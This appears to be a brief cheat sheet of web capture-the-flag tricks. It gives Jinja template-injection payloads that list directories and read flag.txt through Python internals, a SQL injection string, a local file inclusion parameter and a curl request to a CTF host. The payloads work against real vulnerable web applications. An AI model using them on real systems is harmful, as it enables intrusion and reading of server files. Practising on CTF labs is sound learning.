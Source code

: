 ## Useful things to try in web ctf challenges
---

### To check the flag file location
```py
submit?name={{request.application.__globals__.__builtins__.__import__(%27os%27).listdir()}}
```

## To read the vulnerability
```py
submit?name={{%27abc%27.__class__.__base__.__subclasses__()[92].__subclasses__()[0].__subclasses__()[0](%27flag.txt%27).read()}}
```

## SQL INJECTION
```python
'OR'1'='1
```

## Get the flag
```python
$ curl -I https://r3qu35t-m3-fl4g.vishwactf.com -X FLAG
```

change the cookie and refresh the website it works in some cases. try observing robots.txt file of a webpage.

## Hex to ascii
```python
\x47\x75\x65\x73\x73\x20\x54\x68\x65\x20\x46\x6C\x61\x67\x73\x68\x63\x74\x66\x7B\x66\x6C\x61\x67\x7D","\x59\x6F\x75\x20\x67\x75\x65\x73\x73\x65\x64\x20\x72\x69\x67\x68\x74\x2E..
convert to hex using ascii will give the flag.
```

## Search for flag.txt in php files
```php
/index.php?file=flag.txt
Search lfi filter cheatsheet
```
